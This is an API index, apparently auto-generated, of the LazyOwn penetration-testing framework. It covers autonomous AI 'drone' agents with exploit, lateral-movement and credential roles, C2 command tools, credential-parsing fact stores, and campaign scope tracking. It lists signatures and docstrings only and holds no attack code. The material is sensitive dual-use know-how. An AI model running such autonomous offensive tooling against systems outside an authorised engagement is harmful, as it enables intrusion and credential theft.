- `__init__` (line 1091) `def __init__(self, drone_id, role, goal, backend, memory, bus, max_iterations, api_key, model, runner, on_state_change)`
- `_persist` (line 1120) `def _persist(self)` - *Fire the on_state_change callback if registered.*
- `start` (line 1128) `def start(self)` - *Spawn the drone thread.*
- `join` (line 1137) `def join(self, timeout)` - *Block until the drone thread finishes.*
- `_run` (line 1142) `def _run(self)`
- `_build_hive_context` (line 1212) `def _build_hive_context(self)` - *Pull relevant memories to seed this drone's context.*
- `_build_system_prompt` (line 1223) `def _build_system_prompt(self, tool_names, hive_ctx)`
- `_load_payload_key` (line 1240) `def _load_payload_key()`
- `__init__` (line 1301) `def __init__(self, memory, bus, pool, consensus)`
- `plan` (line 1313) `def plan(self, goal, n_drones)` - *Decompose a high-level goal into per-drone task specs.
Returns list of {role, goal} dicts.*
- `dispatch` (line 1332) `def dispatch(self, tasks, backend, api_key, max_iterations)` - *Spawn one drone per task in parallel.

High-risk roles (exploit, lateral, cred, privesc_hunter) are gated
through the ConsensusProtocol before dispatch.  Tasks that fail
consensus are recorded in hive memory but not spawned.

Returns list of drone_ids for approved and spawned drones.*
- `plan_and_dispatch` (line 1405) `def plan_and_dispatch(self, goal, n_drones, backend, api_key, max_iterations)` - *Convenience: plan + dispatch in one call.*
- `collect` (line 1417) `def collect(self, drone_ids, timeout, poll_interval)` - *Wait for all drones to finish (up to timeout seconds).
Returns aggregated results dict.*
- `synthesize` (line 1447) `def synthesize(self, drone_ids, original_goal)` - *Read hive memory results for these drones and produce a synthesis summary.
Written back to hive memory by the queen.*
- `read_bus` (line 1471) `def read_bus(self)` - *Drain queen's mailbox from drone result messages.*
- `__init__` (line 1513) `def __init__(self, db_path)`
- `upsert` (line 1523) `def upsert(self, state)` - *Insert or replace a drone state record. Called on every state change.*
- `load_all` (line 1553) `def load_all(self, limit)` - *Load all persisted drone states ordered by most recently updated.*
- `mark_interrupted` (line 1588) `def mark_interrupted(self)` - *Called on daemon startup: any drone that was queued/running when the
process died is now in an unknown state. Mark them 'interrupted' so
they are visible in status and can be re-queued explicitly.
Returns number of records updated.*
- `load_interrupted` (line 1609) `def load_interrupted(self)` - *Return all drones currently in 'interrupted' state.*
- `delete_older_than` (line 1643) `def delete_older_than(self, days)` - *Prune records older than N days. Returns count deleted.*
- `__init__` (line 1673) `def __init__(self, memory, bus, state_store)`
- `recover_from_store` (line 1687) `def recover_from_store(self)` - *Load persisted drone states from a previous run.
In-flight drones (queued/running) are marked 'interrupted'.
Returns the number of interrupted drones found.*
- `spawn` (line 1708) `def spawn(self, role, goal, backend, api_key, model, max_iterations, runner)` - *Create and start a DroneAgent. Returns drone_id.*
- `requeue_interrupted` (line 1741) `def requeue_interrupted(self, backend, api_key, max_iterations)` - *Re-spawn all drones previously marked 'interrupted'.
Returns list of new drone_ids.*
- `get_state` (line 1767) `def get_state(self, drone_id)` - *Return the current state snapshot for a drone, or None if unknown.*
- `list_all` (line 1776) `def list_all(self, limit)` - *Return a sorted list of drone summary dicts (most recent first).
Includes live drones and recovered history from previous runs.*
- `active_count` (line 1801) `def active_count(self)` - *Return number of live drones currently in queued or running state.*
- `__init__` (line 1818) `def __init__(self)`
- `spawn` (line 1829) `def spawn(self, goal, role, backend, api_key, max_iterations)` - *Spawn a single drone. Returns drone_id.*
- `spawn_hive` (line 1846) `def spawn_hive(self, goal, n_drones, backend, api_key, max_iterations)` - *Queen plans and dispatches multiple drones in parallel.*
- `status` (line 1863) `def status(self)` - *Return hive-wide status dict including historical drones from previous runs.*
- `recall` (line 1878) `def recall(self, query, top_k)` - *Unified recall from all memory layers.*
- `drone_result` (line 1882) `def drone_result(self, drone_id)` - *Return result dict for a specific drone.*
- `collect_and_synthesize` (line 1896) `def collect_and_synthesize(self, drone_ids, goal)` - *Synthesize results from multiple drones.*
- `forget` (line 1900) `def forget(self, older_than_hours, topic)` - *Prune hive memory.*

#### `lazyown_automapper.py`
**Path:** `skills/lazyown_automapper.py`
**File Doc:** *LazyOwn MCP Auto-Mapper ======================== Discovers LazyOwn extensions at startup and returns MCP Tool definitions + a runtime dispatch table.  Three source types are supported:  lazyaddons/*.yaml  (enabled: true)  → lazyown_addon_<name> tools/*.tool       (active: true)   → lazyown_tool_<name> plugins/*.yaml     (enabled: true)  → lazyown_plugin_<name>  All discovered tools are executed by running the LazyOwn shell command or, for .tool files, by substituting the command template and running it via subprocess.  Integration in lazyown_mcp.py ────────────────────────────── from lazyown_automapper import AutoMapper  _automapper = AutoMapper(LAZYOWN_DIR)  # list_tools(): return STATIC_TOOLS + _automapper.mcp_tools()  # call_tool(): result = _automapper.dispatch(name, arguments, config) if result is not None: return result  Auto-regeneration of lazyown.md*

**Classes:**
- `AutoMapper` (line 332) `class AutoMapper` - *Discover and cache all dynamic MCP tools from lazyaddons/, tools/, plugins/.

Call .mcp_tools() to get the list of types.Tool objects.
Call .dispatch(name, arguments, config) → Optional[str] to execute.
Call .update_skills_md(path) to regenerate the auto-discovered section.*

**Functions:**
- `_safe_name` (line 68) `def _safe_name(raw)`
- `_load_yaml` (line 79) `def _load_yaml(path)`
- `_params_to_schema` (line 104) `def _params_to_schema(params)` - *Convert a lazyaddons/plugins params list to JSON Schema.*
- `_load_addons` (line 142) `def _load_addons(lazyaddons_dir)` - *Return list of addon spec dicts for enabled lazyaddons.*
- `_load_dottools` (line 173) `def _load_dottools(tools_dir)` - *Return list of spec dicts for active pwntomate .tool files.*
- `_load_plugins` (line 214) `def _load_plugins(plugins_dir)` - *Return list of spec dicts for enabled plugins (Lua+YAML pairs).*
- `_expand_tool_command` (line 247) `def _expand_tool_command(template, ip, port, ssl, outputdir, toolname)` - *Fill pwntomate-style {placeholders} in a .tool command template.*
- `_addon_to_mcp_tool` (line 265) `def _addon_to_mcp_tool(spec)`
- `_tool_to_mcp_tool` (line 281) `def _tool_to_mcp_tool(spec)`
- `_plugin_to_mcp_tool` (line 314) `def _plugin_to_mcp_tool(spec)`

**Methods:**
- `__init__` (line 341) `def __init__(self, lazyown_dir)`
- `_scan` (line 350) `def _scan(self)`
- `rescan` (line 364) `def rescan(self)` - *Force a rescan of all source directories.*
- `mcp_tools` (line 368) `def mcp_tools(self)` - *Return list of mcp types.Tool objects for all discovered extensions.*
- `dispatch` (line 389) `def dispatch(self, name, arguments, config, run_command_fn)` - *Execute a dynamic tool.  Returns the output string or None if name
is not a known dynamic tool (caller should fall through to static dispatch).

run_command_fn: callable(cmd: str, timeout: int=30) → str
    When provided, addon/plugin calls go through the LazyOwn shell.
    .tool commands always run via subprocess.*
- `_run_addon` (line 420) `def _run_addon(self, spec, arguments, config, run_fn)`
- `_run_dottool` (line 452) `def _run_dottool(self, spec, arguments, config)`
- `_run_plugin` (line 475) `def _run_plugin(self, spec, arguments, config, run_fn)`
- `_shell_run` (line 503) `def _shell_run(cmd, timeout)`
- `update_skills_md` (line 524) `def update_skills_md(self, skills_md_path)` - *Append / replace the auto-discovered section in skills/lazyown.md.
The section is delimited by HTML comments so it can be replaced cleanly.*
- `stats` (line 571) `def stats(self)`
- `list_specs` (line 581) `def list_specs(self)` - *Return raw spec dicts (useful for debugging / reporting).*

#### `lazyown_campaign.py`
**Path:** `skills/lazyown_campaign.py`
**File Doc:** *LazyOwn CampaignStore ===================== Groups multiple targets under a single named penetration-test engagement.  A *campaign* tracks: - A human-readable engagement name  (e.g. "HTB-Mirage", "Client-ACME-2026") - Scope: CIDR ranges / individual IPs that are authorised for testing - Per-host attack phase  (recon → scan → exploit → post-exploit → complete) - Milestones achieved during the engagement  (initial_foothold, priv_esc, …) - Start / end timestamps  and freeform notes  Persistence: sessions/campaign.json  (one active campaign at a time)  Usage ----- python3 skills/lazyown_campaign.py new "HTB-Mirage" --scope 10.10.11.0/24 python3 skills/lazyown_campaign.py status python3 skills/lazyown_campaign.py phase 10.10.11.78 exploit python3 skills/lazyown_campaign.py milestone 10.10.11.78 initial_foothold --notes "via evil-winrm" python3 skills/lazyown_campaign.py complete python3 skills/lazyown_campaign.py add-scope 10.10.10.5*

**Classes:**
- `Campaign` (line 105) `class Campaign` - *Represents a single penetration-test engagement.

Attributes
----------
campaign_id:
    8-character lowercase hex identifier generated at creation time.
name:
    Human-readable engagement label (e.g. ``"HTB-Mirage"``).
scope:
    List of CIDR ranges or individual IPs / hostnames in scope.
started_at:
    ISO-8601 timestamp (UTC) of when the campaign was created.
ended_at:
    ISO-8601 timestamp when the campaign was completed, or ``""`` if
    still active.
phase_per_host:
    Mapping of ``ip → phase``.  Known phases (not enforced):
    ``recon``, ``scan``, ``exploit``, ``post-exploit``, ``complete``.
milestones:
    Ordered list of milestone dicts::

        {
            "host":      "10.10.11.78",
            "type":      "initial_foothold",
            "timestamp": "2026-03-19T14:00:00Z",
            "notes":     "via evil-winrm"
        }
notes:
    Freeform engagement notes (operator journal).*
- `LessonLearned` (line 175) `class LessonLearned` - *A single distilled lesson extracted from a completed campaign.

Stored in hive memory (ChromaDB) so future campaigns can retrieve
relevant lessons via semantic search.*
- `EpisodeReflectionEngine` (line 193) `class EpisodeReflectionEngine` - *Post-campaign reflection engine.

After a campaign completes, analyses milestones and notes to produce
a set of LessonLearned records and persists them to:
  1. sessions/campaign_lessons.jsonl  — local flat file for offline review
  2. hive_memory (ChromaDB / SQLite)  — for semantic retrieval in future campaigns

Design
------
- Single Responsibility : reflection + lesson extraction only
- Open/Closed           : lesson extractors added as _EXTRACTORS entries
- Dependency Inversion  : hive memory injected (or None for offline mode)

The lesson extraction is intentionally heuristic and conservative — it
only produces lessons from concrete observed milestones, not from
speculative reasoning.*
- `CampaignStore` (line 375) `class CampaignStore` - *Thin persistence layer around :class:`Campaign`.

All mutating methods immediately flush changes to
``sessions/campaign.json``.*

**Functions:**
- `_now_iso` (line 59) `def _now_iso()` - *Return current UTC time as an ISO-8601 string (no microseconds).*
- `is_ip_in_scope` (line 64) `def is_ip_in_scope(ip, scope)` - *Return True if *ip* belongs to any entry in *scope*.

Each scope entry is tried as an ipaddress network first; if that fails
the function falls back to a simple string-prefix comparison so that
hostnames stored as plain strings (e.g. "api.acme.com") also match.

Parameters
----------
ip:
    The IP address (or hostname) to test.
scope:
    A list of CIDR strings (``10.10.11.0/24``) or individual addresses /
    hostnames (``10.10.10.5``, ``api.acme.com``).*
- `_build_parser` (line 623) `def _build_parser()`
- `main` (line 667) `def main(argv)`

**Methods:**
- `is_active` (line 148) `def is_active(self)` - *Return True when the campaign has not been completed yet.*
- `to_dict` (line 152) `def to_dict(self)` - *Serialise to a plain dict suitable for JSON persistence.*
- `from_dict` (line 157) `def from_dict(cls, data)` - *Deserialise from a dict loaded out of JSON.*
- `to_dict` (line 189) `def to_dict(self)`
- `__init__` (line 256) `def __init__(self, hive_memory)` - *Parameters
----------
hive_memory:
    Optional HiveMemory instance for semantic storage.
    When None, lessons are only written to the flat JSONL file.*
- `reflect` (line 268) `def reflect(self, campaign)` - *Extract lessons from *campaign* and persist them.

Returns the list of LessonLearned records produced.*
- `_persist_lessons` (line 332) `def _persist_lessons(self, lessons)` - *Write lessons to the flat JSONL file and to hive memory.*
- `__init__` (line 382) `def __init__(self, campaign_file)`
- `_save` (line 388) `def _save(self, campaign)` - *Persist *campaign* to disk (atomic write via temp-then-rename).*
- `load` (line 395) `def load(self)` - *Load the current campaign from disk.

Returns
-------
Campaign | None
    The campaign if the file exists and is valid JSON, else ``None``.*
- `create` (line 414) `def create(self, name, scope, notes)` - *Create and persist a brand-new campaign.

Parameters
----------
name:
    Human-readable engagement label.
scope:
    Initial list of CIDR ranges / IPs / hostnames.
notes:
    Optional freeform notes to attach at creation time.

Returns
-------
Campaign
    The newly created (and saved) campaign.*
- `complete` (line 445) `def complete(self, notes, run_reflection, hive_memory)` - *Mark the active campaign as completed and optionally run reflection.

Parameters
----------
notes:
    Optional closing notes to append to the campaign's notes field.
run_reflection:
    When True (default), run EpisodeReflectionEngine after marking
    completion to extract and persist lessons learned.
hive_memory:
    Optional HiveMemory instance for semantic lesson storage.
    Only used when run_reflection=True.

Returns
-------
List[LessonLearned]
    The lessons extracted (empty list when run_reflection=False).

Raises
------
FileNotFoundError
    If no campaign file exists.
ValueError
    If the campaign was already completed.*
- `update_phase` (line 500) `def update_phase(self, host, phase)` - *Set (or update) the attack phase for *host*.

Parameters
----------
host:
    Target IP address or hostname.
phase:
    Phase label (e.g. ``"recon"``, ``"exploit"``).*
- `add_milestone` (line 516) `def add_milestone(self, host, milestone_type, notes)` - *Record a milestone achievement for *host*.

Parameters
----------
host:
    Target IP / hostname this milestone applies to.
milestone_type:
    Short label such as ``"initial_foothold"``, ``"priv_esc"``,
    ``"data_exfil"``, ``"lateral_movement"``.
notes:
    Optional freeform description of how the milestone was reached.*
- `add_to_scope` (line 540) `def add_to_scope(self, ip_or_cidr)` - *Append *ip_or_cidr* to the campaign scope (idempotent).

Parameters
----------
ip_or_cidr:
    A CIDR range (``10.10.10.0/24``) or individual address /
    hostname to add.*
- `in_scope` (line 559) `def in_scope(self, ip)` - *Return True if *ip* falls within the campaign scope.*
- `summary` (line 566) `def summary(self)` - *Return a human-readable multi-line summary of the campaign.*
- `_require` (line 610) `def _require(self)` - *Load the campaign or raise FileNotFoundError.*

#### `lazyown_claudemd.py`
**Path:** `skills/lazyown_claudemd.py`
**File Doc:** *LazyOwn CLAUDE.md Hierarchical Loader (Claude Code style)  4-level hierarchy (highest → lowest priority): 1. managed  — /etc/lazyown/CLAUDE.md         (system policy, read-only) 2. user     — ~/.lazyown/CLAUDE.md            (user preferences) 3. project  — ./CLAUDE.md, ./.lazyown/CLAUDE.md, ./.lazyown/rules/*.md 4. local    — ./CLAUDE.local.md               (gitignored, machine-specific)  All levels are merged into a single instructions string passed to the LLM. Only project and local files are scanned per session (path-sensitive).*

**Classes:**
- `ClaudeMdLoader` (line 24) `class ClaudeMdLoader` - *Load and merge CLAUDE.md instructions from all hierarchy levels.

Lazy-loads rules directory only when the current working directory
contains it (avoids scanning unrelated paths).*

**Methods:**
- `__init__` (line 32) `def __init__(self, cwd)`
- `load` (line 35) `def load(self)` - *Return merged instructions string from all applicable levels.*
- `list_files` (line 90) `def list_files(self)` - *Return metadata for all CLAUDE.md files that exist.*
- `create_user_file` (line 115) `def create_user_file(self, content)` - *Create/overwrite ~/.lazyown/CLAUDE.md.*
- `create_project_file` (line 121) `def create_project_file(self, content, local)` - *Create CLAUDE.md (or CLAUDE.local.md) in cwd.*
- `add_rule` (line 127) `def add_rule(self, rule_name, content)` - *Add a named rule file to .lazyown/rules/.*
- `status_text` (line 135) `def status_text(self)`

#### `lazyown_context.py`
**Path:** `skills/lazyown_context.py`
**File Doc:** *LazyOwn Context Compaction Pipeline — 5-layer graduated compression (Claude Code style)  Layers: 1. Budget reduction   — hard cap on individual tool output size 2. Snip              — trim older history entries 3. Microcompact      — remove redundant/boilerplate sections 4. Context collapse  — read-time projection (structural summary) 5. Auto-compact      — template-based session summary (last resort)*

**Classes:**
- `CompactionResult` (line 50) `class CompactionResult`
- `ContextCompactor` (line 62) `class ContextCompactor` - *Apply layered compaction to tool output strings.

Usage:
    compactor = ContextCompactor()
    result = compactor.compact(content, tool_name="lazyown_run_command")
    return result.content*

**Functions:**
- `compact_output` (line 237) `def compact_output(content, tool_name)` - *Convenience wrapper: compact and return string.*

**Methods:**
- `summary` (line 57) `def summary(self)`
- `__init__` (line 72) `def __init__(self, budget_override, snip_threshold, collapse_threshold)`
- `apply_budget` (line 84) `def apply_budget(self, content, tool_name)` - *Hard-cap output. Keeps head + tail for readability.*
- `snip` (line 99) `def snip(self, content)` - *Remove duplicate consecutive lines (log noise).*
- `microcompact` (line 120) `def microcompact(self, content)` - *Strip known low-signal patterns. Cheap, always run on >500 chars.*
- `collapse` (line 136) `def collapse(self, content, tool_name)` - *Replace repetitive sections with a structural summary.*
- `auto_compact_session` (line 159) `def auto_compact_session(entries)` - *Template-based session summary when full pipeline is insufficient.
entries: list of {"type": str, "data": dict} from SessionTranscript.*
- `compact` (line 203) `def compact(self, content, tool_name)` - *Apply all applicable layers in order.*

#### `lazyown_daemon.py`
**Path:** `skills/lazyown_daemon.py`
**File Doc:** *LazyOwn Unified Daemon ====================== Replaces three separate background processes with a single asyncio daemon:  Role 1 — File Watcher     (was: sessions_watcher.py) Watches sessions/ for new/modified files: - scan_*.nmap     → generate plan.txt via Ollama, inject PLAN_READY objective - scan_*.nmap.xml → ingest into FactStore, update soul.md OS hint - sessions/<ip>/<port>/<tool>/*.txt → ingest into FactStore, update soul.md creds - sessions/plan.txt → emit PLAN_UPDATED event  Role 2 — Event Engine Poll (was: heartbeat.py + event_engine CSV tail) Every N seconds: tail LazyOwn_session_report.csv for new rows → run rule matching → emit matched events to events.jsonl  Role 3 — Heartbeat        (was: heartbeat.py) Every 30 seconds: emit a HEARTBEAT event so the MCP can verify the daemon is alive; update sessions/daemon_status.json with uptime and stats.  Communication: All roles share a single asyncio.Queue for internal events. External consumers (MCP) read sessions/events.jsonl as before — no interface change.  Management: python3 skills/lazyown_daemon.py start    # fork and detach python3 skills/lazyown_daemon.py stop     # kill via PID file python3 skills/lazyown_daemon.py status   # print status from daemon_status.json python3 skills/lazyown_daemon.py run      # run in foreground (for debugging)*

**Classes:**
- `_Handler` (line 197) `class _Handler(FileSystemEventHandler)`

**Functions:**
- `file_watcher_loop` (line 150) `def file_watcher_loop(queue)` - *Watch sessions/ for new/modified files and dispatch handlers.*
- `_poll_watcher_loop` (line 163) `def _poll_watcher_loop(queue)` - *Async polling fallback: walk sessions/ every WATCHER_POLL_S seconds.*
- `_watchdog_async` (line 193) `def _watchdog_async(queue)` - *Run watchdog Observer in a thread, push events to queue.*
- `file_event_consumer` (line 223) `def file_event_consumer(queue)` - *Consume FILE events from the queue and call _dispatch in executor.*
- `event_engine_loop` (line 240) `def event_engine_loop()` - *Tail CSV, match rules, emit events — every ENGINE_INTERVAL_S seconds.*
- `heartbeat_loop` (line 280) `def heartbeat_loop()` - *Emit HEARTBEAT event and write daemon_status.json every 30 seconds.*
- `toposwarm_keepalive_loop` (line 332) `def toposwarm_keepalive_loop()` - *Keeps the TopoSwarm MCP server alive as a subprocess.

Starts toposwarm_lazyown_orchestrator.py --mcp in stdio mode so LazyOwn
can use it as a local brain without cloud APIs.  If it crashes, restarts
after 10 s with exponential backoff up to 120 s.*
- `_main_async` (line 390) `def _main_async()`
- `_write_pid` (line 422) `def _write_pid()`
- `_clear_pid` (line 427) `def _clear_pid()`
- `_read_pid` (line 432) `def _read_pid()`
- `_is_running` (line 439) `def _is_running()`
- `cmd_run` (line 453) `def cmd_run()` - *Run in foreground.*
- `cmd_start` (line 462) `def cmd_start()` - *Fork, detach, and run in background.*
- `cmd_stop` (line 495) `def cmd_stop()` - *Send SIGTERM to the running daemon.*
- `cmd_status` (line 513) `def cmd_status()` - *Print status from daemon_status.json.*
- `_scan` (line 167) `def _scan()`
- `_dispatch` (line 95) `def _dispatch(path)`
- `process_new_rows` (line 108) `def process_new_rows()`
- `_append_event` (line 111) `def _append_event(ev)`

**Methods:**
- `_push` (line 198) `def _push(self, src)`
- `on_created` (line 201) `def on_created(self, event)`
- `on_modified` (line 205) `def on_modified(self, event)`

#### `lazyown_facts.py`
**Path:** `skills/lazyown_facts.py`
**File Doc:** *LazyOwn FactStore ================= Structured fact extraction from nmap XML files and pwntomate tool output.  Reads  sessions/scan_*.nmap.xml   → host/port/service facts Reads  sessions/*.txt              → credentials, shares, access-level hints Writes sessions/policy_facts.json  → single merged fact store  Consumed by lazyown_mcp.py auto_loop to parameterise commands with real discovered data instead of generic category defaults.  Usage: python3 skills/lazyown_facts.py parse [--target TARGET] python3 skills/lazyown_facts.py show  [--target TARGET] python3 skills/lazyown_facts.py clean*

**Classes:**
- `Config` (line 34) `class Config` - *All file paths and constants for the FactStore.*
- `ServiceFact` (line 62) `class ServiceFact` - *A single open port on a host.*
- `CredentialFact` (line 75) `class CredentialFact` - *A credential pair discovered by any tool.*
- `ShareFact` (line 87) `class ShareFact` - *A network share.*
- `AccessFact` (line 97) `class AccessFact` - *Evidence of access to a host.*
- `VulnerabilityFact` (line 107) `class VulnerabilityFact` - *A vulnerability or weakness found on a host.*
- `DiscoveredPath` (line 120) `class DiscoveredPath` - *A web path found by directory enumeration.*
- `HostFacts` (line 132) `class HostFacts` - *All known facts for a single target IP.*
- `INmapXmlParser` (line 166) `class INmapXmlParser` - *Parse a single nmap XML file into ServiceFact objects.*
- `ITextOutputParser` (line 212) `class ITextOutputParser` - *Base class for tool-output text parsers.*
- `CrackMapExecParser` (line 240) `class CrackMapExecParser(ITextOutputParser)` - *Parse crackmapexec / nxc output.*
- `Enum4linuxParser` (line 292) `class Enum4linuxParser(ITextOutputParser)` - *Parse enum4linux / enum4linux-ng output.*
- `SecretsdumpParser` (line 331) `class SecretsdumpParser(ITextOutputParser)` - *Parse impacket secretsdump output.*
- `LdapParser` (line 366) `class LdapParser(ITextOutputParser)` - *Parse ldapsearch / ldapdomaindump output.*
- `KerbruteParser` (line 395) `class KerbruteParser(ITextOutputParser)` - *Parse kerbrute user enumeration output.*
- `RpcclientParser` (line 416) `class RpcclientParser(ITextOutputParser)` - *Parse rpcclient / enum_rpcbind output.*
- `GobusterFfufParser` (line 435) `class GobusterFfufParser(ITextOutputParser)` - *Parse gobuster / ffuf / dirb / dirsearch web directory scan output.*
- `NiktoParser` (line 494) `class NiktoParser(ITextOutputParser)` - *Parse nikto web scanner output.*
- `NucleiParser` (line 537) `class NucleiParser(ITextOutputParser)` - *Parse nuclei scanner output.*
- `SslscanParser` (line 573) `class SslscanParser(ITextOutputParser)` - *Parse sslscan / sslyze SSL/TLS analysis output.*
- `GenericOutputParser` (line 625) `class GenericOutputParser(ITextOutputParser)` - *Catch-all: mine any text for credential-like patterns.*
- `FactStore` (line 667) `class FactStore` - *Central structured fact repository.

Parses nmap XML and tool output files, merges them into a per-host
data model, and persists everything to sessions/policy_facts.json.

The file is keyed by host IP: { "10.10.11.78": { ... } }*
- `ToolDefinition` (line 1016) `class ToolDefinition` - *A pwntomate .tool file definition.*

**Functions:**
- `create_tool_file` (line 1025) `def create_tool_file(toolname, command, trigger, active, tools_dir)` - *Write a new pwntomate .tool JSON file.

Sanitises the toolname for the filesystem (spaces → underscores).
Returns the path written.*
- `_cmd_parse` (line 1051) `def _cmd_parse(args)`
- `_cmd_show` (line 1060) `def _cmd_show(args)`
- `_cmd_clean` (line 1065) `def _cmd_clean(_args)`
- `main` (line 1074) `def main()`

**Methods:**
- `default` (line 45) `def default(cls)`
- `highest_access` (line 145) `def highest_access(self)`
- `open_ports` (line 156) `def open_ports(self)`
- `services_by_name` (line 159) `def services_by_name(self, name)`
- `parse` (line 169) `def parse(self, xml_path)`
- `can_parse` (line 217) `def can_parse(self, filename, content)`
- `parse` (line 220) `def parse(self, host, content, source_file)`
- `parse_extended` (line 228) `def parse_extended(self, host, content, source_file, port)` - *Extended parse including vulnerabilities and web paths. Override in subclasses.*
- `can_parse` (line 250) `def can_parse(self, filename, content)`
- `parse` (line 257) `def parse(self, host, content, source_file)`
- `can_parse` (line 301) `def can_parse(self, filename, content)`
- `parse` (line 304) `def parse(self, host, content, source_file)`
- `can_parse` (line 341) `def can_parse(self, filename, content)`
- `parse` (line 346) `def parse(self, host, content, source_file)`
- `can_parse` (line 374) `def can_parse(self, filename, content)`
- `parse` (line 377) `def parse(self, host, content, source_file)`
- `can_parse` (line 403) `def can_parse(self, filename, content)`
- `parse` (line 406) `def parse(self, host, content, source_file)`
- `can_parse` (line 424) `def can_parse(self, filename, content)`
- `parse` (line 427) `def parse(self, host, content, source_file)`
- `can_parse` (line 447) `def can_parse(self, filename, content)`
- `parse` (line 450) `def parse(self, host, content, source_file)`
- `parse_extended` (line 453) `def parse_extended(self, host, content, source_file, port)`
- `can_parse` (line 502) `def can_parse(self, filename, content)`
- `parse` (line 505) `def parse(self, host, content, source_file)`
- `parse_extended` (line 508) `def parse_extended(self, host, content, source_file, port)`
- `can_parse` (line 545) `def can_parse(self, filename, content)`
- `parse` (line 548) `def parse(self, host, content, source_file)`
- `parse_extended` (line 551) `def parse_extended(self, host, content, source_file, port)`
- `can_parse` (line 581) `def can_parse(self, filename, content)`
- `parse` (line 584) `def parse(self, host, content, source_file)`
- `parse_extended` (line 587) `def parse_extended(self, host, content, source_file, port)`
- `can_parse` (line 635) `def can_parse(self, filename, content)`
- `parse` (line 638) `def parse(self, host, content, source_file)`
- `__init__` (line 677) `def __init__(self, cfg)`
- `_load` (line 702) `def _load(self)`
- `save` (line 727) `def save(self)`
- `_host` (line 744) `def _host(self, ip)`
- `_dedup_services` (line 749) `def _dedup_services(self, hf)`
- `_dedup_creds` (line 759) `def _dedup_creds(self, hf)`
- `_dedup_vulns` (line 769) `def _dedup_vulns(self, hf)`
- `_dedup_paths` (line 779) `def _dedup_paths(self, hf)`
- `ingest_xml` (line 791) `def ingest_xml(self, xml_path)` - *Parse one nmap XML file, merge results, return count of new facts.*
- `ingest_text` (line 803) `def ingest_text(self, txt_path, host_hint)` - *Parse one tool output file, merge credential/share/access facts.*
- `_guess_host_from_filename` (line 841) `def _guess_host_from_filename(filename)` - *Try to extract an IP from a filename like 10.10.11.78_enum_smb.txt.*
- `_guess_port_from_path` (line 847) `def _guess_port_from_path(txt_path)` - *Extract port from sessions/<ip>/<port>/<tool>/ directory structure.*
- `parse_all` (line 859) `def parse_all(self, target)` - *Scan sessions/ for all nmap XML and txt files.

If target is given only process files that appear to belong to that IP.
Returns a dict of {host: new_facts_count}.*
- `get_host` (line 890) `def get_host(self, host)`
- `all_hosts` (line 893) `def all_hosts(self)`
- `context_for_command` (line 896) `def context_for_command(self, host, category)` - *Return a dict of substitution parameters for a command in the given
attack category.  The auto_loop uses these to build concrete commands.

Returned keys (may be empty strings if unknown):
    port, service, username, password, hash, shares, domain*
- `summary` (line 986) `def summary(self, host)` - *Return a human-readable summary of stored facts.*

#### `lazyown_groq_agents.py`
**Path:** `skills/lazyown_groq_agents.py`
**File Doc:** *skills/lazyown_groq_agents.py ============================== Translates LazyOwn MCP tools into Groq-native tool-calling format and provides a multi-agent pool for parallel autonomous operation.  Three layers: GroqToolRegistry  -- 18 LazyOwn-aware sync callables with Groq-compatible schemas GroqAgentPool     -- thread pool that runs LLMBridge agents concurrently Public API        -- spawn_agent / agent_status / agent_result / list_agents  Each agent has access to: run_command, bridge_suggest, bridge_catalog, parquet_context, facts_show, cve_lookup, memory_search, session_status, read_session_file, list_sessions, c2_status, c2_command, task_list, task_add, inject_objective, reactive_suggest, searchsploit, command_help.  Usage from MCP: lazyown_groq_agent(goal="Enumerate AD on 10.10.11.78") lazyown_groq_agent(goal="Kerberoast and crack hashes", backend="groq", async_mode=True)  Usage standalone: python3 skills/lazyown_groq_agents.py spawn "Enumerate SMB on 10.0.0.5" --wait python3 skills/lazyown_groq_agents.py tools python3 skills/lazyown_groq_agents.py list*

**Classes:**
- `_AgentState` (line 666) `class _AgentState`
- `GroqAgentPool` (line 699) `class GroqAgentPool` - *Thread-pool-based manager for concurrent Groq/Ollama agents.*

**Functions:**
- `_load_payload` (line 56) `def _load_payload()`
- `_run_cmd` (line 63) `def _run_cmd(command, timeout)` - *Execute a LazyOwn shell command via the MCP helper (lazy import).*
- `_c2_req` (line 81) `def _c2_req(path, method, body)` - *Forward a request to the LazyOwn C2 REST API (lazy import).*
- `_t_run_command` (line 94) `def _t_run_command(command)`
- `_t_bridge_suggest` (line 98) `def _t_bridge_suggest(phase, services, tag, os_hint)`
- `_t_bridge_catalog` (line 125) `def _t_bridge_catalog(phase, os_hint)` - *Render the bridge catalog filtered by phase and target OS.

Args:
    phase: Optional WorldModel-or-bridge phase identifier. Empty
        string keeps the previous behaviour and lists every phase.
    os_hint: Target OS filter (``"any"``, ``"linux"``, ``"windows"``).
        Defaults to ``"any"`` so callers that omit it receive the
        unfiltered catalog used by older agent prompts.

Returns:
    A multi-line human-readable summary. When ``phase`` is set the
    header reports the filtered command count, otherwise it reports
    the dispatcher's total command count.*
- `_t_parquet_context` (line 171) `def _t_parquet_context(phase, target)`
- `_t_facts_show` (line 198) `def _t_facts_show(target)`
- `_t_cve_lookup` (line 207) `def _t_cve_lookup(product, version)`
- `_t_memory_search` (line 228) `def _t_memory_search(query)`
- `_t_session_status` (line 256) `def _t_session_status()`
- `_t_read_session_file` (line 277) `def _t_read_session_file(filename)`
- `_t_list_sessions` (line 287) `def _t_list_sessions()`
- `_t_c2_status` (line 295) `def _t_c2_status()`
- `_t_c2_command` (line 300) `def _t_c2_command(client_id, command)`
- `_t_task_list` (line 305) `def _t_task_list(filter_status)`
- `_t_task_add` (line 319) `def _t_task_add(title, description)`
- `_t_inject_objective` (line 333) `def _t_inject_objective(title, description)`
- `_t_reactive_suggest` (line 346) `def _t_reactive_suggest(output, command, platform)`
- `_t_searchsploit` (line 369) `def _t_searchsploit(query)`
- `_t_command_help` (line 390) `def _t_command_help(command)`
- `_t_rag_query` (line 394) `def _t_rag_query(query, n)` - *Semantic search over indexed sessions/ artefacts.*
- `_t_threat_model` (line 415) `def _t_threat_model(action)` - *Build or load the blue team threat model.*
- `_t_atomic_search` (line 442) `def _t_atomic_search(keyword, mitre_id, platform, scope, complexity, has_prereqs, limit, include_command)` - *Structured search over 1690 Atomic Red Team technique tests.*
- `_now_utc` (line 678) `def _now_utc()`
- `_agent_system_prompt` (line 682) `def _agent_system_prompt(tool_names)`
- `get_pool` (line 829) `def get_pool()`
- `spawn_agent` (line 838) `def spawn_agent(goal, tools_filter, api_key, backend, max_iterations, block)` - *Spawn a new Groq/Ollama agent. Returns agent_id.*
- `agent_status` (line 857) `def agent_status(agent_id)`
- `agent_result` (line 861) `def agent_result(agent_id)`
